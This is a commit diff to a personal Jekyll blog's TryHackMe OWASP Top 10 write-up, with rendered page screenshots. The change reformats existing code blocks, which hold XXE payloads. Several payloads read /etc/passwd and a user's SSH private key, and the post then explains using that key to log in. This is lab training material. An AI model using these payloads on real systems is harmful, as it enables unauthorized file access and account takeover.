

Before and after one commit to 4n3i5v74/4n3i5v74.github.io, a Jekyll site: the page built from _posts/2021-02-10-tryhackme-owasp-top-10.md, in a window 1280 px wide and 1400 px high, scrolled down 5955 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
Modified

```diff
--- a/_posts/2021-02-10-tryhackme-owasp-top-10.md
+++ b/_posts/2021-02-10-tryhackme-owasp-top-10.md
@@ -195,14 +195,14 @@
 
 Use `firefox` to load url `http://<ip>` and try the below payloads.
 
-{% raw %}<!DOCTYPE replace [<!ENTITY name "feast"> ]>
+{% capture code %}{% raw %}<!DOCTYPE replace [<!ENTITY name "feast"> ]>
     <userInfo>
         <firstName>falcon</firstName>
         <lastName>&name;</lastName>
-    </userInfo>{% endraw %}
+    </userInfo>{% endraw %}{% endcapture %} {% include code.html code=code lang="xml"%}
 
-{% raw %}<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
-<root>&read;</root>{% endraw %}
+{% capture code %}{% raw %}<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
+<root>&read;</root>{% endraw %}{% endcapture %} {% include code.html code=code lang="xml"%}
 
 The first payload will display `falcon feast` and the second payload will display contents of system file `/etc/passwd`.
 
@@ -212,12 +212,12 @@
 Use `firefox` to load the url `http://<ip>`
 
 Use the following payloads to get the contents of `/etc/passwd`.
-{% raw %}<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
-<root>&read;</root>{% endraw %}
+{% capture code %}{% raw %}<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
+<root>&read;</root>{% endraw %}{% endcapture %} {% include code.html code=code lang="xml"%}
 
 There is one non-system user. Use the following payload to read the user's rsa private key.
-{% raw %}<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///home/<user>/.ssh/id_rsa'>]>
-<root>&read;</root>{% endraw %}
+{% capture code %}{% raw %}<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///home/<user>/.ssh/id_rsa'>]>
+<root>&read;</root>{% endraw %}{% endcapture %} {% include code.html code=code lang="xml"%}
 
 Copy the contents of payload output to new file. Change the permission of the file to be more stricter, like `chmod 400 <user>_id_rsa` and use `ssh` to login to the machine using downloaded user's ssh private key.
 {% capture code %}{% raw %}ssh -i <user>_id_rsa <user>@<ip>{% endraw %}{% endcapture %} {% include code.html code=code %}
```
